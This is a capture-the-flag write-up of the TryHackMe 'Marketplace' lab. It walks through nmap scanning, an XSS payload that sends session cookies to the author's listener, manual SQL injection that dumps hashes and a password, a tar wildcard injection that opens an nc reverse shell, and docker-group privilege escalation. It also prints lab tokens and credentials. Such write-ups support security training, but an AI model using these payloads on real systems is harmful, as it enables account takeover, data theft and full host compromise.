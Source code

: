 # MarketPlace
## nmap
```bash
┌──(lungdart㉿kali)-[~/tryhackme/marketplace]
└─$ nmap -sC -sV -oN nmap/init 10.10.148.133
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-13 14:38 AST
Nmap scan report for 10.10.148.133
Host is up (0.11s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect resu
```

## html site
### base
* /admin exists
* Website has an XSS with new postings, and a way for an admin account to automatically view them and message you.
  * Craft a JS payload to fetch a file from me with the cookie as the page name
```html
<script>
var image = new Image();
image.src = "http://10.6.56.205:8000/"+document.cookie;
</script>
```
```
token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MTMyNDI2NTF9.QqVsgXrbavIvH1okpZd38EIul0HWBowab6skp6fBvmE
```

That gets the first token
```THM{c37a63895910e478f28669b048c348d5}```

### admin account
Usernames
  * system
  * michael (admin)
  * jake (admin)

  Getting users is vuln to SQL injection (Mysql errors)

### SQLMAP
```bash
sqlmap --tables -u http://10.10.148.133/admin?user=1* --cookie='token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MTMyNDc4ODN9.rQZNqwUF5VarH4OatXZk6bsXp6jv_OeAq_WCX7LL6Aw'
```
Not finding anything, and breaking the stolen token. Manual injection required

### Manual injection
#### User table
```
/admin?user=4 AND 1=2 UNION SELECT username, password, 1, 1 FROM users LIMIT 1, 1
michael: $2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q
jake: $2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG
```

No luck cracking these passwords.

#### Messages
```
/admin?user=4 AND 1=2 UNION SELECT group_concat(table_name),1,1,1 FROM information_schema.tables WHERE table_schema='marketplace'
```
```
/admin?user=4 AND 1=2 UNION SELECT group_concat(column_name),1,1,1 FROM information_schema.columns WHERE table_name='messages'
4 AND 1=2 UNION SELECT group_concat(message_content),1,1,1 FROM messages
```

BINGO
Password reset message "@b_ENXkGYUCAv3zJ"

## ssh
### Own USER
jake:@b_ENXkGYUCAv3zJ
/home/jake/user.txt

### Own Root
User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh

```bash
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

#### Tar wildcard command line injection

Tar wildcard exploit. Tar can mistake file names for command line arguments. Since we can run this script as michael, we can make michale run any script we want.
```bash
echo "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.56.205 5050 > /tmp/f" > shell.sh
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
sudo -u michael tar cf /opt/backups/backup.tar *
```

#### priv esc with docker
Once in as the michael user, it appears he's in the docker group.

Create a new docker container with /root virtually mounted to /mnt and read the flag
```bash
docker run -v /root:/mnt alpine cat /mnt/root.txt
```
